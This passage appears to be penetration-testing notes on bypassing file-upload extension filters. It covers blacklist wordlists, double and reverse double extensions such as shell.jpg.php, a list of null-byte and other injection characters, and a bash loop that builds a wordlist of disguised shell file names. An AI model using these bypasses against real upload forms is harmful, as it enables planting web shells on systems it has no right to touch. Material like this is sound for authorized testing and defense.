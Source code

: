 
##### Backend blacklist extension filtering

[Extension Wordlist](https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Discovery/Web-Content/web-extensions.txt)
[PHP Extensions](https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/refs/heads/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst)
[.NET Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20ASP)

##### Backend whitelist extension filtering

Using double extensions (e.g. `shell.jpg.php`)
or Reverse double extensions (e.g. `shell.php.jpg`)

Filter example
```php
$fileName = basename($_FILES["uploadFile"]["name"]);

if (!preg_match('^.*\.(jpg|jpeg|png|gif)', $fileName)) {
    echo "Only images are allowed";
    die();
}
```

##### Character Injection

Character Injection List (e.g. shell.php%00.jpg)
- `%20`
- `%0a`
- `%00`
- `%0d0a`
- `/`
- `.\`
- `.`
- `…`
- `:`

Injection permutation script
```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps'; do
        echo "shell$char$ext.jpg" >> ext_wordlist.txt
        echo "shell$ext$char.jpg" >> ext_wordlist.txt
        echo "shell.jpg$char$ext" >> ext_wordlist.txt
        echo "shell.jpg$ext$char" >> ext_wordlist.txt
    done
done
```

